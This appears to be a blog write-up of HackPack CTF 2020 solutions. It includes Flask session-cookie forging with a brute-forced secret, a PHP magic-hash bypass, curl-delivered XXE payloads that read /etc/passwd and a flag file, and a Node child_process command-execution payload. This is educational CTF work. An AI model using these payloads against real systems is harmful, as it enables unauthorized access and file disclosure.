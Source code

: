 ```yaml
---
layout: post
title: HackPack CTF 2020
categories: [Capture The Flag]
tags: [hackpack, web, pwn, misc]

---
```


[Hackpack](https://ctf2020.hackpack.club/challenges) is an educational CTF that aims to complement security courses at North Carolina State University. Date: vie, 17 abr. 2020, 17:00 UTC — mar, 28 abr. 2020, 03:59 UTC


## Web
- Cookie Forge. When we log in, a cookie named session appears (this is the JWT). In the Flagship Loyalty section, we see this Warning: "You aren't a Flagship Loyalty Member! No cookies for you!!".
```
flask-unsign -d -c 'eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJhYSIsImFsZyI6IkhTMjU2In0.e30.yoxyotdennG9lsGnJNK1REYuSNqVUmN_ijyN26xO3z8'  
{'flagship': True, 'username': 'aa', 'alg': 'HS256'}
flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign  // bruteforce psw is password1
flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'aa'}"
```
Editing the cookie, we get the flag.

- Treasure Map: 
https://treasure-map.cha.hackpack.club/robots.txt ->
view-source:https://treasure-map.cha.hackpack.club/treasuremap.xml ->
view-source:https://treasure-map.cha.hackpack.club/7BmqJfhWhEa30NeVj7j2.html -> Flag

- Super Secret Flag Vault: The Index.php file shows us a PHP script comparing a specific hash. For this, we use the well-known: PHP magic hashes. Where 0+e[0-9]+ compared with == returns true. For eg -'0e1' == '00e2'. We put as input "KnCM6ogsNA1W" whose hash is 00e73414578113850089230341919829.

- Paster: view-source -> src="frames/index.php" -> src="game-frame.js" where a JSfuck code appears. Using https://enkhee-osiris.github.io/Decoder-JSFuck/, we get:
```
parent.postMessage(window.location.toString(),"*");var originalAlert=window.alert;window.alert=function(t){parent.postMessage("success","*"),flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99"),setTimeout(function(){originalAlert("Congratulations, you executed an alert:\n\n"+t+"\n\nhere is the flag: "+flag)},50)};d
```
Inspect the site and, in the console section, write: flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99") -> "flag{x55_i5Nt_7hA7_bAD_R1Gh7?}"

- Custom UI: Inserting '<', we get "Warning: DOMDocument::loadXML():". This is a [XML External Entity Injection](https://portswigger.net/web-security/xxe).
We see that there is a xdata variable, so we can inject here our data. xdata: <1button><1color> mn<1/color><1value><1/value><1/button>
Injection: 
```
<1!DOCTYPE foo [<1!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><1button><1color>&xxe;<1/color><1value>iii<1/value><1/button>
```
[URL encoded](https://www.urlencoder.org/): 
```
%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```
```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```

Changing the cookie to True:

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
...
</div>
<!-- TODO: Delete flag.txt from /etc/ --></body>
...

```
Injection: 
```
<1!DOCTYPE foo [<1!ENTITY xxe SYSTEM "file:///etc/flag.txt"> ]><1button><1color>&xxe;<1/color><1value>iii<1/value><1/button>
```
```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
```
And we get the flag.

## PWN 
- Jsclean: the python file is asking for a js file and a js code. In the python script we can see that it refers to index.js, so we know that this is the file to clean: index.js and the js code is: 
```
require("child_process").exec("cat flag.txt", function(error, stdout, stderr){console.log(stdout);});
```

## Misc
- Soundy: using a sstv decoder.
![]({{ site.baseurl }}/images/HackPack-sstv.jpeg)
- Listen up!: when we use the exiftool command, we get a comment with an [URL](https://www.youtube.com/watch?v=2xZgCVG_Bzk) about MS Paint EXE file. We need to convert the audio to RAW format (it is the uncompressed audio).
